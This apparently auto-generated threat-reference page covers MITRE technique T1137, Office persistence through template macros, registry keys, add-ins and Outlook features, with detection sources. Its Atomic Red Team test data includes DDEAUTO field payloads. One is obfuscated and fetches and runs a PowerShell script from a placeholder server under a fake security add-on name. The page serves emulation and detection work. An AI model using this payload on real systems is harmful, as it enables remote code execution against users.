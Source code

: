 
# Office Application Startup

## Description

### MITRE Description

> Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

### Office Template Macros

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

### Office Test

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

### Add-ins

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

### Outlook Rules, Forms, and Home Page

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)

Outlook rules allow a user to define automated behavior to manage email messages. A benign rule might, for example, automatically move an email to a particular folder in Outlook if it contains specific words from a specific sender. Malicious Outlook rules can be created that can trigger code execution when an adversary sends a specifically crafted email to that user.(Citation: SilentBreak Outlook Rules)

Outlook forms are used as templates for presentation and functionality in Outlook messages. Custom Outlook Forms can be created that will execute code when a specifically crafted email is sent by an adversary utilizing the same custom Outlook form.(Citation: SensePost Outlook Forms)

Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)

To abuse these features, an adversary requires prior access to the user’s Outlook mailbox, either via an Exchange/OWA server or via the client application. Once malicious rules, forms, or Home Pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded while malicious rules and forms will execute when an adversary sends a specifically crafted email to the user.(Citation: SilentBreak Outlook Rules)(Citation: SensePost Outlook Forms)(Citation: SensePost Outlook Home Page)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User', 'Administrator']
* Platforms: ['Windows', 'Office 365']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1137

## Potential Commands

```

```

## Commands Dataset

```

```

## Potential Detections

```json
[{'data_source': ['4688', 'Process Execution']},
 {'data_source': ['4688 ', 'Process CMD Line']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['4663', 'File monitoring']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['4688 ', 'Process CMD Line']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['4663', 'File monitoring']}]
```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Office Application Startup': {'atomic_tests': [{'auto_generated_guid': 'cf91174c-4e74-414e-bec0-8d60a104d181',
                                                                          'description': '\n'
                                                                                         'TrustedSec '
                                                                                         '- '
                                                                                         'Unicorn '
                                                                                         '- '
                                                                                         'https://github.com/trustedsec/unicorn\n'
                                                                                         '\n'
                                                                                         'SensePost '
                                                                                         'DDEAUTO '
                                                                                         '- '
                                                                                         'https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/\n'
                                                                                         '\n'
                                                                                         'Word '
                                                                                         'VBA '
                                                                                         'Macro\n'
                                                                                         '\n'
                                                                                         "[Dragon's "
                                                                                         'Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)\n',
                                                                          'executor': {'name': 'manual',
                                                                                       'steps': '1. '
                                                                                                'Open '
                                                                                                'Word\n'
                                                                                                '\n'
                                                                                                '2. '
                                                                                                'Insert '
                                                                                                'tab '
                                                                                                '-> '
                                                                                                'Quick '
                                                                                                'Parts '
                                                                                                '-> '
                                                                                                'Field\n'
                                                                                                '\n'
                                                                                                '3. '
                                                                                                'Choose '
                                                                                                '= '
                                                                                                '(Formula) '
                                                                                                'and '
                                                                                                'click '
                                                                                                'ok.\n'
                                                                                                '\n'
                                                                                                '4. '
                                                                                                'Once '
                                                                                                'the '
                                                                                                'field '
                                                                                                'is '
                                                                                                'inserted, '
                                                                                                'you '
                                                                                                'should '
                                                                                                'now '
                                                                                                'see '
                                                                                                '"!Unexpected '
                                                                                                'End '
                                                                                                'of '
                                                                                                'Formula"\n'
                                                                                                '\n'
                                                                                                '5. '
                                                                                                'Right-click '
                                                                                                'the '
                                                                                                'Field, '
                                                                                                'choose '
                                                                                                '"Toggle '
                                                                                                'Field '
                                                                                                'Codes"\n'
                                                                                                '\n'
                                                                                                '6. '
                                                                                                'Paste '
                                                                                                'in '
                                                                                                'the '
                                                                                                'code '
                                                                                                'from '
                                                                                                'Unicorn '
                                                                                                'or '
                                                                                                'SensePost\n'
                                                                                                '\n'
                                                                                                '7. '
                                                                                                'Save '
                                                                                                'the '
                                                                                                'Word '
                                                                                                'document.\n'
                                                                                                '\n'
                                                                                                '9. '
                                                                                                'DDEAUTO '
                                                                                                'c:\\\\windows\\\\system32\\\\cmd.exe '
                                                                                                '"/k '
                                                                                                'calc.exe"\n'
                                                                                                '\n'
                                                                                                '10. '
                                                                                                'DDEAUTO '
                                                                                                '"C:\\\\Programs\\\\Microsoft\\\\Office\\\\MSWord\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\{ '
                                                                                                'QUOTE '
                                                                                                '87 '
                                                                                                '105 '
                                                                                                '110 '
                                                                                                '100 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '115 '
                                                                                                '80 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '101 '
                                                                                                '114 '
                                                                                                '83 '
                                                                                                '104 '
                                                                                                '101 '
                                                                                                '108 '
                                                                                                '108 '
                                                                                                '}\\\\v1.0\\\\{ '
                                                                                                'QUOTE '
                                                                                                '112 '
                                                                                                '111 '
                                                                                                '119 '
                                                                                                '101 '
                                                                                                '114 '
                                                                                                '115 '
                                                                                                '104 '
                                                                                                '101 '
                                                                                                '108 '
                                                                                                '108 '
                                                                                                '46 '
                                                                                                '101 '
                                                                                                '120 '
                                                                                                '101 '
                                                                                                '} '
                                                                                                '-w '
                                                                                                '1 '
                                                                                                '-nop '
                                                                                                '{ '
                                                                                                'QUOTE '
                                                                                                '105 '
                                                                                                '101 '
                                                                                                '120 '
                                                                                                '}(New-Object '
                                                                                                "System.Net.WebClient).DownloadString('http://<server>/download.ps1'); "
                                                                                                '# '
                                                                                                '" '
                                                                                                '"Microsoft '
                                                                                                'Document '
                                                                                                'Security '
                                                                                                'Add-On"\n'},
                                                                          'name': 'DDEAUTO',
                                                                          'supported_platforms': ['windows']}],
                                                        'attack_technique': 'T1137',
                                                        'display_name': 'Office '
                                                                        'Application '
                                                                        'Startup'}}]
```

# Tactics


* [Persistence](../tactics/Persistence.md)


# Mitigations

None

# Actors


* [APT32](../actors/APT32.md)

* [APT28](../actors/APT28.md)
    
